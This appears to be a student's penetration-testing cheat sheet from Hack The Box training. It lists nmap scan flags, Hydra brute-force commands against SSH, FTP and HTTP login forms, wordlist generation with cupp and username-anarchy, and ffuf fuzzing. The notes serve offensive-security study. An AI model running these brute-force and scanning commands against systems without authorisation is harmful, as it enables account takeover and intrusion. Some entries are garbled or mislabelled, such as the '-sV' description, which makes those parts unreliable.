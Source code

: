 Another handy method for scanning ports is the `-sV` option which is used to get additional available information from the open ports. This method can identify versions, service names, and details about our target.

Version Scan

```shell-session
sudo nmap 10.129.59.14  -F -Pn -sV -reason 
```


`-sU`|Performs a UDP scan.|

`-sV` Performs TCP scan.`

|`-F`|Scans top 100 ports.|



 `Nmap` can save the results in 3 different formats.

- Normal output (`-oN`) with the `.nmap` file extension
- Grepable output (`-oG`) with the `.gnmap` file extension
- XML output (`-oX`) with the `.xml` file extension

We can also specify the option (`-oA`) to save the results in all formats. The command could look like this:

XML Output

```shell-session
ii001andresii@htb[/htb]$ xsltproc target.xml -o target.html
```


|   |   |
|---|---|
|`-p-`|Scans all ports.|
|`-sV`|Performs service version detection on specified ports.|



|**Scanning Options**|**Description**|
|---|---|
|`10.129.2.28`|Scans the specified target.|
|`-p 50000`|Scans only the specified ports.|
|`-sS`|Performs SYN scan on specified ports.|
|`-Pn`|Disables ICMP Echo requests.|
|`-n`|Disables DNS resolution.|
|`--disable-arp-ping`|Disables ARP ping.|
|`--packet-trace`|Shows all packets sent and received.|
|`--source-port 53`|Performs the scans from specified source port.|


## Login Brute Forcing  

```shell-session
ii001andresii@htb[/htb]$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```


```shell-session
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

```
```
```
```hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -  
u -f 94.237.56.76 -s 31335 http-get /
```

```
## CUPP

Many tools can create a custom password wordlist based on certain information. The tool we will be using is `cupp`, which is pre-installed in your PwnBox. If we are doing the exercise from our own VM, we can install it with `sudo apt install cupp` or clone it from the [Github repository](https://github.com/Mebus/cupp). `Cupp` is very easy to use. We run it in interactive mode by specifying the `-i` argument, and answer the questions, as follows:


## Custom Username Wordlist

We should also consider creating a personalized username wordlist based on the person's available details. For example, the person's username could be `b.gates` or `gates` or `bill`, and many other potential variations. There are several methods to create the list of potential usernames, the most basic of which is simply writing it manually.

One such tool we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), which we can clone from GitHub, as follows:
Code: bash

```bash
./username-anarchy Bill Gates > bill.txt
```

This tool has many use cases that we can take advantage of to create advanced lists of potential usernames. However, for our simply use case, we can simply run it and provide the first/last names as arguments, and forward the output into a file, as follows:


Hydra from login 
``hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-10.txt -u 94.237.56.76 -s 31335 http-post-form  "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"`` 


su - <user>  login with other user 



```
ffuf (FUZZ is the dinamic $i)
ii001andresii@htb[/htb]$ ffuf -w /opt/useful/SecLists/Disc
overy/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://SERVER_IP:PORT/blog/FUZZ.php
```


```shell-session
ii001andresii@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ <SNIP>
```